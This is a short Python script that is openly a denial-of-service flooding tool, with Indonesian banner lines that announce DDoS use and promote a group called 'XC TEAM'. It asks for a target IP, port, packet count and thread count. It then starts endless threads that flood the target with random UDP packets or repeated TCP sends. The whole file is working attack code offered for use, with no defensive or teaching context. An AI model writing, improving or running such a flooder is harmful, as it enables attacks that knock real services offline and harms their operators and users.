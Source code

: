 
import random
import socket
import threading

print       (" - - > LORD RAZZEL NI DEK!! < - - ")
print       (" - - > Ada Masalah apa Sih Mau DDOS Gas! < - - ")
print       (" - - > Join XC TEAM <- - ")                                   
print       (" - - > Rename Pm Gw !! < - - ")
print       (" - - > Jangan Abause Ya Adek Adek! < - - ")
print       (" - - > Yaudah Dari Pada Bacod Gas Aja Yakan! < - - ")
print       (" - - >  XC TEAM NI DEK KATA MEMET < - - ")
    
ip = str(input("  Ip:"))
port = int(input(" Port:"))
choice = str(input(" SERIUS MAU NYERANG? (y/n):"))
times = int(input(" Paket Nya Mau Berapa:"))
threads = int(input(" Pelor Nya Tembakin Berapa:"))
def run():
	data = random._urandom(1000)
	i = random.choice(("[+]","[-]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" EASY KALI MENN!!! ")
		except:
			print("[!] YAHAHA DOWN HAYUKK!!!")

def run2():
	data = random._urandom(16)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" EASY KALI MENN!!! ")
		except:
			s.close()
			print("[*] YAHAHA DOWN HAYUKK!!!")
            
for y in range(threads):
	if choice == 'y':
		th = threading.Thread(target = run)
		th.start()
	else:
		th = threading.Thread(target = run2)
		th.start()
